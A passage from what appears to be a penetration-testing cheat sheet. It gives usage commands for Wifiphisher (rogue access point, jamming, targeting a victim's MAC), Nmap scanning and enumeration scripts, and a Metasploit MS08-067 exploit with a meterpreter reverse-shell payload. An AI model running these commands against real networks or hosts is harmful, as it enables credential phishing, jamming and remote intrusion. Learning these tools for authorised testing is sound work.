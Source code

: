        sudo wifiphisher -e "Free Wi-Fi" --nointernet -p network-manager-connect
   2. Specify Network Interface (if you have multiple Wi-Fi adapters):
   
       sudo wifiphisher -aI wlan0 -jI wlan1 -p network-manager-connect
       - -aI wlan0: Interface for creating the rogue Access Point.
       - -jI wlan1: Interface for jamming the legitimate Wi-Fi network.

3. Target Specific Devices (MAC Filtering):

       sudo wifiphisher -e "Free Wi-Fi" --target-mac AA:BB:CC:DD:EE:FF -p network-manager-connect
       Replace AA:BB:CC:DD:EE:FF with the victim's MAC address.
---


## 11. Nmap: Network Scanning and Enumeration Tool
Nmap is one of the most widely used tools for network discovery and vulnerability scanning.

**Basic Syntax:**
```sh
nmap [options] [target]
```
**Usage Examples:**
```sh
nmap 192.168.1.1
nmap 192.168.1.1 192.168.1.2 192.168.1.3
nmap 192.168.1.1-10
nmap 192.168.1.0/24
nmap -sV 192.168.1.1
nmap -O 192.168.1.1
nmap -A 192.168.1.1
nmap -p 22,80,443 192.168.1.1
nmap -oN output.txt 192.168.1.1
```
**Top 10 Nmap Scripts:**
```sh
nmap [port] --script=http-enum [target]
nmap -p 445 --script=smb-os-discovery [target]
nmap --script=dns-brute [target]
nmap --script=ssl-enum-ciphers [target]
nmap -p 21 --script=ftp-anon [target]
nmap -p 25 --script=smtp-enum-users [target]
nmap -p 161 --script=snmp-info [target]
nmap -p 3306 --script=mysql-info [target]
nmap -p 22 --script=ssh2-enum-algos [target]
nmap --script=vuln [target]
```

## 12. Metasploit: Exploitation Framework
Metasploit is a powerful tool for developing, testing, and executing exploits.

**Usage Examples:**
```sh
msfconsole
search [exploit_name]
use exploit/windows/smb/ms08_067_netapi
show options
set RHOST 192.168.1.5
set RPORT 445
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.10
set LPORT 4444
exploit
background
sessions -l
sessions -i [session_id]
```
